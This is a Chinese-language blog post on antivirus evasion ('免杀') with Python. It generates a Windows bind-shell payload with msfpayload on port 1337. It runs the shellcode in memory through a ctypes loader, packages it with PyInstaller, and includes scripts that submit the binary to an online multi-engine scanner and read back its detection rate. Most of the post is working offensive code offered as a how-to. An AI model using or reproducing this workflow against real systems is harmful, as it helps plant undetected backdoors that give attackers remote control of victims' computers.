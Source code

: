 ```yaml
---
title: 'Using Python to implement anti-killing'
date: 2024-12-23
permalink: /posts/2024/12/Using Python to implement anti-killing/
tags:
  - python
  - cybersecurity
---
```

# 用 Python 实现免杀

被命名为“火焰”（Flame）的恶意软件，在用被称为 Beetlejuice、Microbe、Frog、Snack 和 Gator 的 Lua 脚本编译后，该恶意软件可以通过蓝牙标识出被其侵入的计算机、秘密录音，入侵附近的计算机并往远程命令和控制服务器上传屏幕截图和数据。大多数杀毒引擎仍在使用基于特征码的检测作为主要的检测手段。

## 免杀的过程

在 Metasploit 框架中包含有一个恶意代码库。使用 Metasploit 生成 C 语言风格的一些 shellcode 作为恶意载荷。

```shell
# msfpayload windows/shell_bind_tcp LPORT=1337 C
```

要写一段用来执行这段 C 语言风格的 shellcode 脚本。Python 支持导入其他语言的函数库，导入 ctypes 库——这个库使我们能用 C 语言中的数据类型。

```python
from ctypes import *
shellcode = ("...")
memory_with_shell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memory_with_shell, CFUNCTYPE(c_void_p))
shell()
```

下一步，使用 Pyinstaller 生成 Windows PE（portable executable）格式的可执行文件。

### 免杀验证

使用 `vscan.novirusthanks.org` 的服务来扫描可执行文件。NoVirusThanks 提供了一个 Web 网页界面，可以上传可疑文件，然后用多种不同的杀毒引擎扫描它。可以编写一个小巧的 Python 脚本自动完成这一步骤。在通过 Web 网页界面交互时，抓取一个 tcpdump 抓包文件，利用 httplib 库进行编写。

注意 boundary 字段，是用来分隔文件内容和数据包中其他内容的

```python
def upload_file(file_name):
    print("[+] Uploading file to NoVirusThanks...")
    file_contents = open(file_name, "rb").read()
    header = {
      "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryF17rwCZdGuPNPT9U"
    }
    params = "----WebKitFormBoundaryF17rwCZdGuPNPT9U"
    params += '\r\nContent-Disposition: form-data; name="upfile"; filename="{}"'.format(file_name)
    params += '\r\nContent-Type: application/octet stream\r\n\r\n'
    params += file_contents
    params += '\r\n------WebKitFormBoundaryF17rwCZdGuPNPT9U'
    params += '\r\nContent-Disposition: form-data; name="submitfile"\r\n'
    params += "------WebKitFormBoundaryF17rwCZdGuPNPT9U--\r\n"
    conn = httplib.HTTPConnection("vscan.novirusthanks.org")
    conn.request("POST", "/", params, header)
    response = conn.getresponse()
    location = response.getheader("location")
    conn.close()
    return location
```

接下来写一个把我们上传的可疑文件的扫描结果打印出来的 Python 脚本。首先，脚本要连接到 “file” 页面，它会返回一个 “正在进行扫描” 的消息。一旦这个页面返回一个 HTTP 302，就重定向到分析结果页面，可以使用一个正则表达式读取发现率，并把 CSS 代码用空白字符串替换掉。

```python
def print_results(url):
    status = 200
    host = url_parse(url)[1]
    path = url_parse(url)[2]
    if "analysis" not in path:
        while status != 302:
            conn = httplib.HTTPConnection(host)
            conn.request("GET", path)
            resp = conn.getresponse()
            status = resp.status
            print("[+] Scanning file...")
            conn.close()
            time.sleep(15)
	print("[+] Scan Complete.")
    path = path.replace("file", "analysis")
    conn = httplib.HTTPConnection(host)
    conn.request("GET", path)
    resp = conn.getresponse()
    data = resp.read()
    conn.close()
    re_results = re.findall(r"Detection rate:.*\) ", data)
    html_strip_res = re_results[1].replace("&lt;font color='red'&gt;", '').replace("&lt;/font&gt;", "")
    print("[+] {}".format(html_strip_res))
```

使用默认的 Metasploit 编码器把它编码到一个标准的 Windows 可执行文件中。这个文件显然无法逃过正常的杀毒软件的查杀

```shell
$ msfpayload windows/shell_bind_tcp LPORT=1337 X > bindshell.exe
```